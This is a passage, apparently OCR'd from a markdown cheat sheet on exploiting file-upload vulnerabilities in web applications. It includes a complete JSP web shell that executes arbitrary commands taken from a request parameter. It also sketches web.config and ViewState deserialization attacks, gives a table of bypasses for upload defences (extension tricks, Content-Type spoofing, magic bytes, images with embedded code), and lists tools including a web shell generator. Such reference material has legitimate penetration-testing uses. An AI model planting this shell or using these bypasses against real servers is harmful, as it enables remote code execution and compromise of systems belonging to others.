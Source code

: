 ### ASP.NET Applications

```
# Web.config upload
Upload a web.config file that maps new extensions to ASP.NET handler

# ViewState RCE
If machine key is known, craft an upload with malicious deserialization payload
```

### Java Applications

```
# JSP Shell
<%@ page import="java.util.*,java.io.*"%>
<%
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
OutputStream os = p.getOutputStream();
InputStream in = p.getInputStream();
DataInputStream dis = new DataInputStream(in);
String disr = dis.readLine();
while ( disr != null ) { out.println(disr); disr = dis.readLine(); }
%>

# JAR/WAR upload
Package malicious JSP in JAR/WAR file for deployment
```

## Common Upload Security Implementations & Bypasses

### Defense Mechanisms and Bypasses

| Defense Mechanism | Bypass Technique |
|-------------------|------------------|
| Extension Blacklist | Use uncommon extensions, double extensions, or special characters |
| Extension Whitelist | Try variations of allowed extensions, case variations, or config uploads |
| Content-Type Validation | Modify Content-Type header in request |
| Content Validation | Add magic bytes to file while keeping executable code |
| File Size Limits | Create minimal shells under size limit |
| Image Dimension Check | Create valid image with embedded code |

## Tools for Testing File Upload Vulnerabilities

1. **Burp Suite** - HTTP proxy for intercepting and modifying requests
2. **OWASP ZAP** - Alternative security proxy
3. **ExifTool** - Manipulate file metadata 
4. **FUFF** - Web fuzzer for testing upload endpoints
5. **Weevely** - PHP web shell generator
6. **Upload Scanner** - Burp Suite extension for file upload testing
